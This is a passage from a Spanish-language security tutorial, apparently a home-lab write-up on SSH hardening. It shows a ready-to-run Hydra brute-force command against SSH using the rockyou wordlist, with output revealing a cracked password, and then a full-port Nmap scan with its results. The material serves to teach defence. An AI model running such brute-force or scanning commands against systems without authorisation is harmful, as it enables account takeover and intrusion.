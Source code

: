
## **3️⃣ Ataque de fuerza bruta con Hydra desde Kali Linux**

```bash
hydra -l jeremyserver -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.108
```

### **Explicación de los argumentos:**

- **`-l jeremyserver`** → Usuario objetivo.
- **`-P /usr/share/wordlists/rockyou.txt`** → Lista de contraseñas.
- **`ssh://192.168.0.108`** → Protocolo y dirección IP del objetivo.

### **Resultado exitoso:**

```
[22][ssh] host: 192.168.0.108   login: jeremyserver   password: password1
```

🔴 **SSH es vulnerable a ataques de fuerza bruta.**

---

## **4️⃣ Escaneo con Nmap para detectar puertos abiertos**

```bash
nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 192.168.0.108
```

### **Explicación de los argumentos:**

- **`-p-`** → Escanea **todos los puertos** (0-65535).
- **`-sS`** → Escaneo **SYN stealth** (rápido y sigiloso).
- **`-sC`** → Usa scripts básicos de reconocimiento.
- **`-sV`** → Detecta versiones de los servicios activos.
- **`--min-rate=5000`** → Acelera el escaneo.
- **`-n`** → No resuelve nombres de dominio (más rápido).
- **`-vvv`** → Muestra salida **detallada**.
- **`-Pn`** → No hace ping, **asume que el host está activo**.

### **Salida relevante:**

```
PORT   STATE SERVICE  VERSION
21/tcp open  ftp      vsftpd 3.0.5
22/tcp open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
```

🔴 **SSH está visible y expuesto en el puerto 22**.

---

## **5️⃣ Mejorar la seguridad: Cambiar el puerto de SSH**
